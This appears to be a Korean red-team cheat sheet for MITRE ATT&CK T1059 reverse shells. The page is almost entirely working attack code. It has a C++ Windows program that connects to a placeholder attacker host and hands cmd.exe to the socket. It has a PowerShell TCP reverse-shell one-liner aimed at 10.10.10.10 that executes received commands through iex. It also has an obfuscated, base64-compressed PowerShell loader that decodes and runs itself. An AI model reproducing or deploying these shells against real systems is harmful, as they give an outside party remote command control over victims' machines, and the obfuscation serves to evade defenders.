 # T1059-Command-and-Scripting-Interpreter(Reverse Shell)

Status: Execution

---

# Summary

- MITRE ATT&CK : Enterprise - Execution - Command and Scripting Interpreter
- Require Privilege : Any
- Running Privilege : Any
- Description : 아웃바운드 방화벽 정책이 약하게 설정 된 것을 이용하여 쉘을 탈취

---

# How To

## C++

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

#define _WINSOCK_DEPRECATED_NO_WARNINGS

#include <WinSock2.h>
#include <windows.h>

//#pragma comment(linker, "/subsystem:windows /entry:mainCRTStartup")
#pragma comment(lib, "ws2_32")

int main(int argc, char *argv[])
{
	WSADATA wsaData;
	SOCKET s1;
	struct sockaddr_in hax;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	WSAStartup(MAKEWORD(2, 2), &wsaData);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

	hax.sin_family = AF_INET;
	hax.sin_port = htons(8080);
	hax.sin_addr.s_addr = inet_addr("attacker[.]cnc[.]com");

	WSAConnect(s1, (SOCKADDR *)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

	memset(&si, 0, sizeof(si));
	si.cb = sizeof(si);
	si.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	si.hStdInput = (HANDLE)s1;
	si.hStdOutput = (HANDLE)s1;
	si.hStdError = (HANDLE)s1;

	TCHAR cmd[256] = L"cmd.exe";
	CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);

	return 0;
}
```

## Powershell

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

```powershell
# oneliner, obfuscated with Invoke-Obfuscate
 ( neW-ObjECT  io.STreaMREadeR( (neW-ObjECT  IO.CoMPrESsion.DeflATEstReAM( [IO.MEmOrySTREaM] [conVert]::frOmbAsE64StRing('jY+xasMwEIb3QN7hMB3SwXKTKB0yJqG0m8GBLF2EfK4EjiTuzqUm5N2rYELW3HLww33/dyfne4TF8hUu8xnkacSQlDsvfCQTuEOCsokDWYTCiaRtVa21etdqpbVa6k3VRsvVVxCK7WDFx6BS2xVQHpDFB3NLoHjB8LsdGClR7HLjdzNyj2fwQZBoSMIK/zBf1eQjeRnh0/+4yehI413uIVhTtMgM5Uem1Ubc0x0T6TqtvRHr4PIIJnrTI6b8N9oYWob123x2/Qc='),[IO.comPRessIon.cOMPrESSionMOde]::DEcoMprESS) ) ,[sYSTEm.TEXt.EncoDING]::aScIi)).REAdToENd()| iEX
```



(계속 추가 예정)